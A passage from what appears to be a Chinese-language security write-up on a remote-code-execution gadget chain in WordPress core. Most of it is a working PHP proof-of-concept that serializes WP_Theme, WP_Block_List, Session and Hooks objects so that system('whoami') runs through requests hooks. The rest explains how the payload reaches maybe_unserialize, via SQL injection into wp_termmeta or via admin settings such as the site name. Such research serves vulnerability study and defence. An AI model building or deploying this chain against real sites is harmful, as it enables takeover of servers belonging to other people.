        private $headers;
        private $options;

        public function __construct($url, $headers, $options)
        {
            $this->url = $url;
            $this->headers = $headers;
            $this->options = $options;
        }
    }

    class Hooks
    {
        public $hooks;

        public function __construct($hooks)
        {
            $this->hooks = $hooks;
        }
    }
}

namespace {

    use WpOrg\Requests\Hooks;
    use WpOrg\Requests\Session;

    class WP_Theme {
        private $headers;
        private $parent;

        public function __construct($headers, $parent)
        {
            $this->headers = $headers;
            $this->parent = $parent;
        }
    }

    class WP_Block_List {
        private $blocks;
        private $registry;

        public function __construct($blocks, $registry)
        {
            $this->blocks = $blocks;
            $this->registry = $registry;
        }
    }

    class WP_Block_Type_Registry {
        private $registered_block_types;

        public function __construct($registered_block_types)
        {
            $this->registered_block_types = $registered_block_types;
        }
    }

    $hooks = array(
        "requests.before_request" => array(
            // $hooked
            array(
            // $callback
                array (
                    new Hooks(array(
                        "http://p:0/Name" => array(
                            array("system")
                        )
                        )
                    ),
                    "dispatch"
                )
            )
        )
    );

    // 需要设置hooks属性
    $hook = new Hooks($hooks);

    // headers对应的最后执行的命令数组
    // options中有一个hooks键，需要设置成Hooks实例
    $parent = new Session("http://p:0", array("whoami"), array("hooks" => $hook) );

    // 需要设置parent属性为Session实例
    $registered_block_types = new WP_Theme(null, $parent);

    // 在WP_Theme中根据offsetGet方法来设置
    $block = ["blockName" => "Parent Theme"];
    $blocks = ["Name" => $block];
    // 需要设置registered_block_types属性，同样为继承ArrayAccess接口的实例，即WP_Theme
    $registry = new WP_Block_Type_Registry($registered_block_types);
    // 需要设置blocks属性，含有“Name”键，为数组
    // 需要设置registry属性为WP_Block_Type_Registry对象
    $headers = new WP_Block_List($blocks, $registry);

    // WP_Theme中的get方法，需要设置$header属性为继承ArrayAccess接口的实例，即WP_Block_List
    // 触发__toString方法的对象
    $theme = new WP_Theme($headers, null);

    echo urlencode(serialize($theme));
}
```

生成的 payload 能够成功 RCE

## 触发

首先需要找到反序列化点，在 wordpress 中存在该方法 maybe\_unserialize 会对传入的数据进行反序列化

```plain
function maybe_unserialize( $data ) {
    if ( is_serialized( $data ) ) { // Don't attempt to unserialize data that wasn't serialized going in.
        return @unserialize( trim( $data ) );
    }

    return $data;
}
```

而调用该方法的在整个项目中存在 20 项

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208123150-fa33491a-c63a-1.png)

**payload**注入点：

一般而言通过 SQL 注入漏洞往数据库中写入恶意的 payload 能够到达这一效果，在 wpscan 的报告中提到，存在 SQL 注入漏洞会在 wp\_termmeta 表中插入新行，插入的元数据在检索时会经过 maybe\_unserialize，从而造成 RCE

其实管理员用户名处、站点名等设置成恶意 payload 都可以导致 RCE

## 参考

[Finding A RCE Gadget Chain In WordPress Core | WPScan](https://wpscan.com/blog/finding-a-rce-gadget-chain-in-wordpress-core/)

[ambionics/phpggc: PHPGGC is a library of PHP unserialize() payloads along with a tool to generate them, from command line or programmatically. (github.com)](https://github.com/ambionics/phpggc)
